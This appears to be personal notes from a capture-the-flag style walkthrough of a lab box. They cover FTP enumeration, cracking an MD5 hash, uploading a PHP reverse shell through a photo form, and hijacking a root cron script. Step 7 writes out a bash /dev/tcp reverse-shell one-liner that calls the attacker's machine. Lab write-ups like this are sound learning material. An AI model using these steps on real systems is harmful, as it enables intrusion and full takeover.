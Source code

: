 was a bit more tricky that blue. here's the steps

1. scanned the box with [[Nmap]], found that [[FTP]], [[SSH]], and a web server was up
2. got an anonymous login and found a `note.txt` that read...
```text
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```
3. saw the `password` row with `cd73502828457d15655bbd7a63fb0bc8`, found out online it was an [[md5]] hash that was `student`
4. logged into the user code `10201321` with the password `student`
5. saw that there was an upload page for a photo, so i uploaded a [[reverse shell]] using [[PHP]] to get onto the box
6. once there, i ran [[linpeas.sh]] and saw that there was a user `grimmie` with the password `My_V3ryS3cur3_P4ss`. remembered that [[SSH]] was open so i logged into that user with that password and it worked
7. ran [[linpeas.sh]] again, but nothing special. noticed that there was a file called `backup.sh` in the user folder that would run every minute. This was run by the user `root`, so i changed the code to add the line `bash -i >& /dev/tcp/192.168.1.220/8080 0>&1` and used a [[Netcat]] listener to listen on port `8080` on my machine. This gave me a root shell.